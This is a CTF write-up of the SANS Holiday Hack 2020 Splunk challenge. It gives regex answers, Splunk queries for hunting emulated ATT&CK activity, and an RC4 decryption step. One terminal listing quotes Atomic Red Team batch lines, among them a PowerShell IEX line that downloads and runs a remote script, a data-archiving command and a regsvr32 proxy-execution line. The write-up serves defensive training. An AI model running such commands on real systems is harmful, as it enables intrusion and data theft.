




# Writeup for SANS Holiday Hack Challenge 2020 - 'Zat You, Santa Claus? featuring KringleCon 3: French Hens
# 6. Splunk Challenge
## 6.0. Description
Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?
## 6.1. Side Challenge - Sort-O-Matic
The challenge is about using the right regexes to sort toys. Below the ones I used:

| REQUEST                                                    | REGEX                                                                                                               |
| ---------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| 1. Matches at least one digit                              | \d                                                                                                                  |
| 2. Matches 3 alpha a-z characters ignoring case            | [a-zA-Z][a-zA-Z][a-zA-Z]                                                                                            |
| 3. Matches 2 chars of lowercase a-z or numbers             | [a-z0-9][a-z0-9]                                                                                                    |
| 4. Matches any 2 chars not uppercase A-L or 1-5            | ^((?![A-L1-5]).)*$                                                                                                  |
| 5. Matches three or more digits only                       | ^\d{3,}$                                                                                                            |
| 6. Matches multiple hour:minute:second time formats only   | ^([0-9]:\|[0-1][0-9]:\|[0-2][0-3]:)[0-5][0-9]:[0-5][0-9]$                                                           |
| 7. Matches MAC address format only while ignoring case     | ^([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}$ |
| 8. Matches multiple day, month, and year date formats only | ^[0-3][0-9][\.\/-][0-1][0-2][\.\/-][0-2][0-9][0-9][0-9]$                                                            |



## 6.2. Hints
> **Adversary Emulation and Splunk** - Minty Candycane: *“Dave Herrald talks about emulating advanced adversaries and hunting them with Splunk.”*  
> **Data Decoding and Investigation** - Minty Candycane: *“Defenders often need to manipulate data to decRypt, deCode, and refourm it into something that is useful. Cyber Chef is extremely useful here!”*  
> **Splunk Basics** - Minty Candycane: *“There was a great Splunk talk at KringleCon 2 that's still available!”*

## 6.3. Solution
### 6.3.0. TRAINING QUESTION 1 
1. How many distinct MITRE ATT&CK techniques did Alice emulate?
```bash
  | tstats count where index=* by index 
  | rex field=index "(?<macro>t.*?)[.-]" 
  | dedup macro 
  | stats count dc(macro) as techniques_count
  | table techniques_count
```

| techniques_count | 
| ---------------- |
| 13               |

RESPONSE: `13`

### 6.3.1. TRAINING QUESTION 2
2. What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)
```bash
  | tstats count where index=* by index
  | search index="*1059.003*"
```

| index          | count |
| -------------- | ----- |
| t1059.003-main | 1984  |
| t1059.003-win  | 18519 |

RESPONSE: `t1059.003-main t1059.003-win`

### 6.3.2. TRAINING QUESTION 3
3. One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?
```bash
  | tstats count where index=* by index
  | search index="*1082*"
```

| index     | count |
| --------- | ----- |
| t1082-win | 18136 |

```bash
  index="t1082-win" "MachineGuid" 
  |  dedup CommandLine
  |  table CommandLine
```

| CommandLine                                                                                                    |
| -------------------------------------------------------------------------------------------------------------- |
| REG QUERY HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography /v MachineGuid                                    |
| "C:\Windows\system32\cmd.exe" /c "REG QUERY HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography /v MachineGuid" |

RESPONSE: `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography`

### 6.3.3. TRAINING QUESTION 4
4. According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)
```bash
  index=attack OSTAP 
  | sort +"Execution Time _UTC" 
  | table "Execution Time _UTC"
```

| Execution Time \_UTC |
| -------------------- |
| 2020-11-30T17:44:15Z |
| 2020-11-30T20:01:36Z |
| 2020-11-30T20:59:09Z |
| 2020-11-30T20:59:10Z |
| 2020-11-30T20:59:11Z |

RESPONSE: `2020-11-30T17:44:15Z`

### 6.3.4. TRAINING QUESTION 5
5. One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?
EXTERNAL RESOURCES: [T1123.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1123/T1123.md), [AudioDeviceCmdlets](https://github.com/frgnca/AudioDeviceCmdlets)

```bash
  index=attack t1123
  | table "Execution Time _UTC", Hostname, Technique, "Test Name", Username
```

| Execution Time \_UTC | Hostname   | Technique | Test Name                             | Username                  |
| -------------------- | ---------- | --------- | ------------------------------------- | ------------------------- |
| 2020-11-30T19:25:14Z | win-dc-748 | T1123     | using device audio capture commandlet | attackrange\administrator |
| 2020-11-30T17:05:11Z | win-dc-748 | T1123     | using device audio capture commandlet | attackrange\administrator |

```bash
  index=* EventID=1 EventData_Xml=*audio* 
  | sort +SystemTime 
  | table CommandLine, process_id 
  | head 1
```

| CommandLine                                                                                                                      | process_id |
| -------------------------------------------------------------------------------------------------------------------------------- | ---------- |
| "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" &amp; {powershell.exe -Command WindowsAudioDevice-Powershell-Cmdlet} | 3648       |

RESPONSE: `3648`

### 6.3.5. TRAINING QUESTION 6
6. Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?  

*Ok, I actually gave up on this question so I worked out my alternative path. I knew it had something to do with the Atomic Red Team repository and a bat file. I cloned the github repo and extracted the last line of each bat file then submitted them until i found quser was the right one, sorry 😁*

```bash
thedead@dellian:~/Desktop/repos$ git clone https://github.com/redcanaryco/atomic-red-team.git
Cloning into 'atomic-red-team'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 22577 (delta 7), reused 15 (delta 5), pack-reused 22553
Receiving objects: 100% (22577/22577), 56.15 MiB | 3.36 MiB/s, done.
Resolving deltas: 100% (12832/12832), done.

thedead@dellian:~/Desktop/repos/atomic-red-team$ for i in $(find ./* | grep "bat"); do tail -n1 $i; done
SCHTASKS /Delete /TN Spawn /F
cmd.exe /c powershell.exe Compress-Archive -Path C:\temp\* -CompressionLevel Optimal -DestinationPath C:\temp\allthedataz.zip
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/BloodHound_Old.ps1'); Get-BloodHoundData"
regsvr32.exe /s /n /i:"Some String To Do Things ;-)" AllTheThingsx64.dll
::del test.txt
pause
quser
echo " T1547.001 Hello World Bat"
@FOR /F "tokens=*" %%a in ('type %temp%\3.txt ^| findstr /vc:"ECHO is on."') do @echo %%a >> %temp%\users.txtpausenet localgroup
quser
```

RESPONSE: `quser`

### 6.3.6. TRAINING QUESTION 7
7. According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?
```bash
  index=* sourcetype="bro:x509*" "certificate.issuer"="CN=win-dc-748.attackrange.local" 
  |  dedup certificate.subject
  |  table certificate.subject, certificate.serial
```

| certificate.subject             | certificate.serial               |
| ------------------------------- | -------------------------------- |
| CN=win-dc-748.attackrange.local | 55FCEEBB21270D9249E86F4B9DC7AA60 |

RESPONSE: `55FCEEBB21270D9249E86F4B9DC7AA60`

### 6.3.7 CHALLENGE QUESTION
What is the name of the adversary group that Santa feared would attack KringleCon?
> Alice Bluebird: *This last one is encrypted using your favorite phrase! The base64 encoded ciphertext is: `7FXjP1lyfKbyDK/MChyf36h7`*  
> Alice Bluebird: *It's encrypted with an old algorithm that uses a key. We don't care about RFC 7465 up here! I leave it to the elves to determine which one!*  
> Alice Bluebird: *I can't believe the Splunk folks put it in their talk!*  

EXTERNAL RESOURCES: [RFC 7465](https://tools.ietf.org/html/rfc7465), [Dave Herrald, Adversary Emulation and Automation, KringleCon 2020](https://www.youtube.com/watch?v=RxVgEFt08kU), [RC4 Cipher](https://www.dcode.fr/rc4-cipher)

FAVORITE PHRASE:


```bash
thedead@dellian:~$ echo "7FXjP1lyfKbyDK/MChyf36h7"| base64 -d | xxd | cut -d " " -f2,3,4,5,6,7,8,9,10 | tr -d "\n" | tr -d " " && echo 
ec55e33f59727ca6f20cafcc0a1c9fdfa87b
```

Decrypted using the RC4 Cypher from dcode.fr with input `ec55e33f59727ca6f20cafcc0a1c9fdfa87b` and key `Stay Frosty`:


RESPONSE: `The Lollipop Guild`

## 6.4. T-Shirts and Stickers
I actually have this splunk t-shirt and sticker, love them!
| [](https://poshmark.com/listing/SPLUNK-Looking-For-Trouble-Mens-Graphic-T-Shirt-5e12a1df41950146cd874171) | |  | 

---
# 7. Solve the Sleigh's CAN-D-BUS Problem
# 8. Broken Tag Generator
# 9. ARP Shenanigans
# 10. Defeat Fingerprint Sensor
# 11a. Naughty/Nice List with Blockchain Investigation Part 1
# 11b. Naughty/Nice List with Blockchain Investigation Part 2

---
# 0. [thedead@asian:~$ whoami](../README.md)
# ?. 33.6 Kbps
# 1. Uncover Santa's Gift List
# 2. Investigate S3 Bucket
# 3. Point-of-Sale Password Recovery
# 4. Operate the Santavator
# 5. Open HID Lock